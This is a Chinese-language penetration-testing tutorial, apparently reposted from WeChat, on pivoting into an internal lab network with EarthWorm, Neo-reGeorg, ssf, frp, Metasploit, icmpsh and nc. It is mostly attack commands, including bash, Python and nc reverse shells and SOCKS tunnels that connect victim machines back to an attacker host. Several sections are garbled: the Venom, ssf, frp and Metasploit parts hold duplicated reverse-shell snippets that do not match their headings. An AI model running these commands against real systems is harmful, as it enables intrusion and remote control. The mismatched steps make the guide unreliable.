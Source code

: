 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/04TvD-hBDG5MhSDK3TWvtg)

**0x01 环境介绍** 

边缘机器：windows 7 ip:192.168.52.137/192.168.220.133

目标机器: windows 2008R2 ip:192.168.52.138

攻击机器：windows 10 ip:192.168.220.1

**0x02 EarthWorm** 

将 ew\_for\_windows 上传到边缘机器 1. 正向连接 在 win7 机器上执行`ew -s ssocksd -l 888`监听本机 888 端口。然后在 win10 机器上使用 SocksCap64 进行连接

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZJcz8eu9sVxL43zs3S2bpoNX3D1jfZ8zT0uE2scDEY0QOwVCJs5kujg/640?wx_fmt=png)

然后把 firefox 放进文件运行

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6Zec5dFKBayGSYtqMnNbxjTzWn4jmxFp532AORkUj7V61QeqjED3UBng/640?wx_fmt=png)

2\. 反向连接 攻击机器上执行`ew_for_Win.exe -s rcsocks -l 1080 -e 1234`对外 1234 端口转发到 1080 端口，然后边缘机器连接`ew_for_Win.exe -s rssocks -d 192.168.220.1 -e 1234`

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZggrH3PVoQ0fAUiapKL2ZctYKLX8gaj9VG4CU22mI9n29NmH6hFsGV0g/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6Z5AqqMXQicicI4XNHgY0Aee9je8I9vvS82ZAyMn66HQIicT0kxebzdRPSQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZmhT2nbQAtTmnKqUCSdfkubR9UceFa6GWV4hUPJKyJRRo6f4D1gGnDA/640?wx_fmt=png)

再用 SocksCap64 代理本地 127.0.0.1 端口 1080

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZxSeQuwcYFHTAiaQOeWfQB4uic1ZhicNKA1s2SMxOrrIWQWIgvakwM8aDg/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZDsPjiauiaZ9WLia6Kq01ySndJDnt4UibDju72V25SZoeyBmn3RTDXMoSiaA/640?wx_fmt=png)

**0x03 Neo-reGeorg**

这个是走 http，生成 php 文件`python neoreg.py generate -k 123456`

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZZcJrTeRjd89f0iaTmficBibkFrenEL45l8In4GIgomzric6JeMQWZW6xUQ/640?wx_fmt=png)

在`neoreg_server`目录下生成了几个文件

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZMq3IAGYQpTWZib207F84XbibeOe9aaiaeb3aJ1EPdJn8mjHUodcicichE7Q/640?wx_fmt=png)

针对不同类型上传不同脚本

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZKGicibacWhrb0XjfibzdF5alGlGYPb4Vos4CiasappoJFQoOibnp1qNBz1Q/640?wx_fmt=png)

攻击机连接`python neoreg.py -k 123456 -u http://192.168.220.133/tunnel.php`

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZJ8hsayydafyFI59p1A1FAzJNntMWdicicQPvefrCBKKgibia5PRfiahyE8A/640?wx_fmt=png)

然后同样用 SocksCap64 代理本地 1080 端口

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZPpWiaozOqdoV9erfXNxvbDFVJeL7iaibI0xQ07GJZicjPpdIkL3IOoLQVA/640?wx_fmt=png)

**0x04 Venom**

攻击机器：

```
攻击机：./icmpsh\_m.py 攻击ip 受害ip 
受害机：icmpsh.exe -t 攻击机ip
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZgVmHgcrlcicmKbvlnUVaygjuBVzayIHXGAAmib8EicHmUkUia3nK6vykKA/640?wx_fmt=png)

边缘机器：

```
目标机器 nc -lvp 4444 -e /bin/sh linux nc -lvp 4444 -e c:\\windows\\system32\\cmd.exe windows
攻击机器 nc <目标机器ip> 4444
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZRpF9C373ic3GxlF1zNjSGxhzH2RMZ2yia6PACNcz1Oc8vhpOZKEeeldw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZPjAWuGZHUEbJNqA02TZRFmh5STQWhrCoUuichG4PVSeuTolQKcUFibiag/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZfiajLsQJNmADchQ4Cm5BcQJmMI3p3ErwC7ONMT3OqUUuLoCNB6wqovg/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZoYyzzDzubMa0MtuFLHibjwRcvShOZaGrIygG9DUuzHZccPkm8T0KGxw/640?wx_fmt=png)

**0x05 ssf 正向：** 

把 certs 文件夹和 ssfd 上传到边缘机器 目标边界监听 1050 端口

```
攻击机器监听本地端口 nc -lvp 1234
目标机器 nc 1234 -e /bin/sh linux nc 1234 -e cmd.exe windows
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6Zz8gBAPwhnZ28KgQDMXnfyQBb6EjVDuhpQ2nYB0TB3CXlRm1FvKKojg/640?wx_fmt=png)

攻击机连接目标边界的 1050 端口，并将数据转发给 1051 端口`ssf.exe ‐D 1051 ‐p 1050 192.168.220.133`

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZicTR9Zb9gXDDcqJ8XQZJ297Antx4Kib06RbkIAuIroiaxibgdFebR5o6Mw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6Zvbng1sGRse3fTg4T5sarQhRqB65bB1Mp7G7lmoP2Mkd41kkgAyiawbA/640?wx_fmt=png)

反向：本地监听 1234 端口`ssfd.exe ‐p 1234`

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZFhicX4zwzLW7p0Ro3iaavsWEE9DE2CkNXpmg2A7p2wMnrPBKv1ib2cWoQ/640?wx_fmt=png)

然后目标边界连接我们的 1234 端口，并将数据转发给 12345 端口`ssf.exe ‐F 12345 ‐p 1234 192.168.220.1`

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6Zj0h5Jra2QiczC2PzSAVRiaOl3Apibic7sywHROn0m01THUb8xNBuA2dYwQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZFqhwt7DNLlzLat1BiaZ8HZ3FeLETia5bYoWXHQdg8T62ibMicMKlqUFVAA/640?wx_fmt=png)

**0x06 frp** 

攻击机器上设置 frps.ini

```
攻击机器：nc -lvp 2222 
目标机器：python -c "import os,socket,subprocess;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(('192.168.220.1',2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(\['/bin/bash','-i'\]);"
```

然后运行`frps.exe -c frps.ini`

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZvNK3Yric4ZogDfbqBicywuAQI0C9Gx966gKicnr55HrVF8QibIXeOB00Ag/640?wx_fmt=png)

然后在边缘机器设置 frpc.ini

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZG7icABAmQIibtsUBkpDY777GqC0OET801QYp750cVwbNz48Iaf2h4z7Q/640?wx_fmt=png)

然后执行`frpc.exe ‐c frpc.ini`

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZSHA1xgLYkaQdjrf5moVeHsVbwDETx7UXAjGvFD2c5ndYso7kyichafg/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6Zmia55ujljL7hM25jlA9tK84GUO0ibftM1buelSUzIRDAPTUTWs2c3riaw/640?wx_fmt=png)

然后监听本地 8010 端口

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZAE1HnmmicuZfiaLnJSXZVww9m2cl5FWaicEMicWbxlPiapEfUEUvoqJllYQ/640?wx_fmt=png)

**0x07 msf Sock4a**

**搭建 Socks4a 代理**

```
攻击机器：nc -lvp 2222 
目标机器：bash -i >& /dev/tcp/192.168.220.1/2222 0>&1
```

修改 proxychains 配置文件

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZzZRex4R6iarobQG8YjGJJLOfvlUApGXFUd2JyA0uTBV42eA6Fhxz9FA/640?wx_fmt=png)

```
proxychains nmap 192.168.52.138 -sV -sT -p 80
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6Z685E9yGiadeI7VSHbDWnfH4r7c5p9QjpicicySibicaQTxFeZNg633QdDGw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZpyfbwSVnUuUvqn7DNMuKbAsOOhUdFUWSEVDib4Mpm38jCurXFVysx4g/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6Z1Pcc5yCUvLKvfqicEsFZz5nH5SHibs0pHv7HHMlESE4LHQQxF4Bwd7Hg/640?wx_fmt=png)

###0x07.1 portfwd 端口转发 portfwd 是 meterpreter 提供的一种基本的端口转发。porfwd 可以反弹单个端口到本地，并且监听，使用方法如下

```
portfwd add -l 3389 -r 192.168.220.133 -p 3389
```

然后我们访问本地 3389

```
rdesktop 127.0.0.1:3389
```

**0x08 icmpsh**

因为 icmpsh 工具要代替系统本身的 ping 命令的应答程序，所以需要输入命令来关闭本地程序的 icmp 应答，如果要恢复就设置为 0，否则 shell 的允许会不稳定，比如一直刷屏，无法进行交互输入 `sysctl -w net.ipv4.icmp_echo_ignore_all=1`

```
攻击机：./icmpsh\_m.py 攻击ip 受害ip 
受害机：icmpsh.exe -t 攻击机ip
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6Zg5ernVkLub56X5ricxEWDRX2iajd9GrmUTribzzgfibnxK6EjibS0wqPmjw/640?wx_fmt=png)

**0x09 nc**

1\. 正向

```
目标机器 nc -lvp 4444 -e /bin/sh linux nc -lvp 4444 -e c:\\windows\\system32\\cmd.exe windows
攻击机器 nc <目标机器ip> 4444
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6Z7g0ibzPOAtppdPVQr2ChtAHy8xWgCT2LxmhunRp0UzeictsrWvmcaeoA/640?wx_fmt=png)

2\. 反向 

```
攻击机器监听本地端口 nc -lvp 1234
目标机器 nc 1234 -e /bin/sh linux nc 1234 -e cmd.exe windows
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8dFySJvdzFMv6FxogxNY6ZNMFLDJqia1iaRVVzr0PnKGp8w4GJbVgCFrbUMh9libaiaEzSaicrNLALjOw/640?wx_fmt=png)

在一般情况下目标机器是没有 nc 的。这里可以用其他工具或者编程语言来代替 nc python 反向 shell

```
攻击机器：nc -lvp 2222 
目标机器：python -c "import os,socket,subprocess;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(('192.168.220.1',2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(\['/bin/bash','-i'\]);"
```

bash 反向 shell 

```
攻击机器：nc -lvp 2222 
目标机器：bash -i >& /dev/tcp/192.168.220.1/2222 0>&1
```

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)**推荐阅读**  
[**SOCKS 代理 | 渗透之内网漫游代理姿势**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247484990&idx=1&sn=f1b733c97bf8b71cae09a98eb886a7e8&chksm=ec1f5301db68da17a24a6274b89d0e2ce0ba4c5aa7c43307ebead958628ea9ebec5349c966d6&scene=21#wechat_redirect)  
**[内网漫游之 SOCKS 代理大结局](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247484888&idx=1&sn=1ed5509673f52f9007f5eaf5a2c2b290&chksm=ec1f50e7db68d9f12d819e9a25474d24254e5e1e9230a4bbd4e9b3175ee0a5f320ba63bfaac6&scene=21#wechat_redirect)**

[![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou80h6Jor7Py4sKIwfiaowozsMP0Yjn9RcoJAmPMKa5hQVczeXoDxIic2QaZYKKrLDlJFT5v6EpREmjg/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247492102&idx=1&sn=aa09a4f38ae21b73a1d3a938d97aae20&chksm=ec1cb739db6b3e2f7d7edc43d338e9f2dc4563edc768a34fb4214618f5107ecfc89f9d7b802c&scene=21#wechat_redirect)

**点赞 在看 转发**

原创投稿作者：一寸一叶

![](https://mmbiz.qpic.cn/mmbiz_gif/Uq8QfeuvouibQiaEkicNSzLStibHWxDSDpKeBqxDe6QMdr7M5ld84NFX0Q5HoNEedaMZeibI6cKE55jiaLMf9APuY0pA/640?wx_fmt=gif)